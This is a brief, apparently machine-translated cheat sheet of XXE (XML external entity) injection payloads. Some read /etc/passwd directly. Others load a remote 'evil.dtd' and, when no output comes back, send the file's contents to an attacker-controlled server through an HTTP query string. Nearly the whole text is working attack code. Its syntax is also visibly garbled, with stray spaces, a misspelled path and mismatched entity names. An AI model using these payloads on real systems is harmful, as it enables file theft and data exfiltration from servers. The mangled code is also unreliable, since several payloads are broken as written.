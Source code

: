 Combining external entity declaration (entity name SYSTEM "uri / url") and parameter entity (% entity name SYSTEM "uri-external dtd") have two ways to perform injection attacks    

if ECHO situation:    

A.    
```
<! DOCTYPE foo [<! ELEMENT foo ANY> 
<! ENTITY% xxe SYSTEM "file: /// etc / passwd"> ]>
 <foo> & xxe; </ foo>
```   

B.   
```
<! DOCTYPE foo [<! ELEMENT foo ANY> 
<! ENTITY% xxe SYSTEM "http: //xxx/evil.dtd">
% xxe;]>
<foo> & evil; </ foo>
```    
contents of external evil.dtd     
`<!ENTITY %evil SYSTEM "file:///ect/passwd">`   

if NO ECHO situation:   
(You can use an external data channel to extract the data, first use file: // or php: // filter to get the content of the target file, and then send the content as an http request to the server that receives the data (attack server))     
```
<! DOCTYPE updateProfile [ 
<! ENTITY% file SYSTEM "file: /// etc / passwd"> 
<! ENTITY% dtd SYSTEM "http: //xxx/evil.dtd">
% dtd;
% send;
]>
```    
The content of evil.dtd, the internal `%` number should be physically encoded `&#x25;`   
```
<!ENTITY % all
"<!ENTITY &#x25 send SYSTEM 'http://xxx.xxx.xxx.xxx/?data=%file;'>"
>
%all;
```

